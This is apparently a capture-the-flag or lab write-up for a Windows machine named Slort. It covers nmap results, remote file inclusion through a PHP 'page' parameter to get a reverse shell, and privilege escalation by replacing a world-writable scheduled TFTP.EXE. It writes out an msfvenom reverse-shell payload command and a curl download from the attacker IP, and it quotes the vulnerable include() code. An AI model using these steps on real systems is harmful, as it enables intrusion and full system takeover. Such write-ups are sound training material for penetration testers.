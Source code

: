 
# Slort

OS: Windows

# NMAP

The results of the default scripts and sevice scan:

```sh
PORT      STATE SERVICE       REASON  VERSION
21/tcp    open  ftp           syn-ack FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
3306/tcp  open  mysql?        syn-ack
| mysql-info: 
|_  MySQL Error: Host '192.168.45.166' is not allowed to connect to this MariaDB server
| fingerprint-strings: 
|   NULL, giop: 
|_    Host '192.168.45.166' is not allowed to connect to this MariaDB server
4443/tcp  open  http          syn-ack Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.228.53:4443/dashboard/
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
5040/tcp  open  unknown       syn-ack
7680/tcp  open  pando-pub?    syn-ack
8080/tcp  open  http          syn-ack Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.228.53:8080/dashboard/
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.93%I=7%D=8/15%Time=64DB8176%P=x86_64-pc-linux-gnu%r(NU
......

```

# Port 8080
The nmap scan revealed a webserver trunning on port 8080. Webapplications can contain llot's of vulbnerabilities which might lead us to initial access to the machine.

![](slort.png)

In the url we see a page parameter. This might be an indication that lfi (local file inclusion) or even RFI (remote file inclusion) is possible).
If we put just a bogus filename like ‘test.php’ ad the value of the parameter we can see an error message:
![](test.png)

The function called by the application is 'include()'

> The include expression includes and evaluates  the specified file. 

There is a big security warning in the documentation of this function [PHP Include](https://www.php.net/manual/en/function.include.php)

![](warning.png)

We will check if we can make a remote file get executed on the server. We create a file called test.php with the following contents and serve it on our attacker machine: 

```php
<?php

echo("This is a test")

?>
```

If we put our url of out test.php file as the value of the page parameter we can see that the php code get's executed

![](rfi.png)

Yeaah, now take advantage of this file inclusion vulnerabitly to get a shell on the machine.
As a shell i used the PHP shell from Ivan Sinek on https://revshells.com, the shell selected is cmd.exe andthe port 443. The shell is served as shell.php

Boom! we have a shell as rupert!

![](rupertshell.png)

# Privilge Escalation
When perfomring enumeration for privilege escalation it's always good practice to look for non-default files and folders is C:\ and Program Files.
In the C:\ directory we find  C:\Backup. There is a info.txt file. This is info for the user but might contain useful info for us.

```cmd
c:\Backup>type info.txt
Run every 5 minutes:
C:\Backup\TFTP.EXE -i 192.168.234.57 get backup.txt
```

Hmm... We see that the file C:\Backup\TFTP.EXE  gets executed every 5 minutes. We will check our persmissions on the file with icacls:

> Displays or modifies discretionary access control lists (DACLs) on specified files, and applies stored DACLs to files in specified directories.

![](icacls.png)

We can see that BUILTIN\Users have Full Access (f) on the file. This means we could to anything with the file including replacing it with a malicous file.
First we will back up the original file:

```cmd
move C:\Backup\TFTP.EXE C:\Backup\TFTP.EXE.bak
```

The payload we generate is:

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.226 LPORT=4444 -f exe -o rev4444.exe
```

The file can be transferred with curl:

```cmd
curl.exe 192.168.45.226/rev4444.exe -o c:/Backup/TFTP.exe
```

Now start a listener and wait...

![](admin.png)

Here we have a shell as administrator!!!!

# Short Analysis


We can see the vulnerabilty if we read the contents of C:\xampp\htdocs\site\index.php

```php
C:\xampp\htdocs\site>more index.php
<?php
        $page = null;
        if (isset($_GET["page"])) {
                include($_GET["page"]);
        }
        else {
                echo "ERROR: No page specified...";
                header("Location: index.php?page=main.php", true, 301);
                exit();
        }
?>
```

We see that if the page parameter is set it will try to include that page. But if we do not put a page parameter in th url we should get an error that no page is specified and we get redirected (code 301). We can verify this wirth burp suite:

![](burp.png)





